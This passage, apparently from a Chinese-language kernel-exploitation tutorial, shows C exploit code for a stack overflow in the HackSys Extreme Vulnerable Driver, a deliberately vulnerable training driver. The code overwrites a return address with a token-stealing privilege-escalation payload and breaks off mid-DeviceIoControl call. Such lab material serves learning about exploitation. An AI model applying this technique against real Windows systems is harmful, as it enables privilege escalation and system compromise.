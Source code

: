 
2. 构造 exp（官方 exp）

```
DWORD WINAPI StackOverflowThread(LPVOID Parameter) {
HANDLE hFile = NULL;
    ULONG BytesReturned;
    PVOID MemoryAddress = NULL;
    PULONG UserModeBuffer = NULL;
    LPCSTR FileName = (LPCSTR)DEVICE_NAME;//设备名称
    PVOID EopPayload = &TokenStealingPayloadWin7;//构造的payload地址
    SIZE_T UserModeBufferSize = (BUFFER_SIZE + RET_OVERWRITE) * sizeof(ULONG);
 
    __try {
        //获得设备句柄
        DEBUG_MESSAGE("\t[+] Getting Device Driver Handle\n");
        DEBUG_INFO("\t\t[+] Device Name: %s\n", FileName);
 
        hFile = GetDeviceHandle(FileName);
 
        if (hFile == INVALID_HANDLE_VALUE) {
            DEBUG_ERROR("\t\t[-] Failed Getting Device Handle: 0x%X\n", GetLastError());
            exit(EXIT_FAILURE);
        }
        else {
            DEBUG_INFO("\t\t[+] Device Handle: 0x%X\n", hFile);
        }
 
        DEBUG_MESSAGE("\t[+] Setting Up Vulnerability Stage\n");
 
        DEBUG_INFO("\t\t[+] Allocating Memory For Buffer\n");
 
        UserModeBuffer = (PULONG)HeapAlloc(GetProcessHeap(),
                                           HEAP_ZERO_MEMORY,
                                           UserModeBufferSize);
 
        if (!UserModeBuffer) {
            DEBUG_ERROR("\t\t\t[-] Failed To Allocate Memory: 0x%X\n", GetLastError());
            exit(EXIT_FAILURE);
        }
        else {
            DEBUG_INFO("\t\t\t[+] Memory Allocated: 0x%p\n", UserModeBuffer);
            DEBUG_INFO("\t\t\t[+] Allocation Size: 0x%X\n", UserModeBufferSize);
        }
 
        DEBUG_INFO("\t\t[+] Preparing Buffer Memory Layout\n");
 
        RtlFillMemory((PVOID)UserModeBuffer, UserModeBufferSize, 0x41);//'A'填充
 
        MemoryAddress = (PVOID)(((ULONG)UserModeBuffer + UserModeBufferSize) - sizeof(ULONG));
        //UserModeBuffer最后四个字节(sizeof(ULONG))的地址，写入payload地址，覆盖栈中原本返回地址。
        *(PULONG)MemoryAddress = (ULONG)EopPayload;
 
        DEBUG_INFO("\t\t\t[+] RET Value: 0x%p\n", *(PULONG)MemoryAddress);
        DEBUG_INFO("\t\t\t[+] RET Address: 0x%p\n", MemoryAddress);
 
        DEBUG_INFO("\t\t[+] EoP Payload: 0x%p\n", EopPayload);
 
        DEBUG_MESSAGE("\t[+] Triggering Kernel Stack Overflow\n");
 
        OutputDebugString("****************Kernel Mode****************\n");
        //R3调用DeviceIoControl函数，产生此IRP_MJ_DEVICE_CONTROL，HACKSYS_EVD_IOCTL_STACK_OVERFLOW（自定义的控制码），
        //HACKSYS_EVD_IOCTL_STACK_OVERFLOW=
        //对应的派遣函数BufferOverflowStackIoctlHandler,
        DeviceIoControl(hFile,
```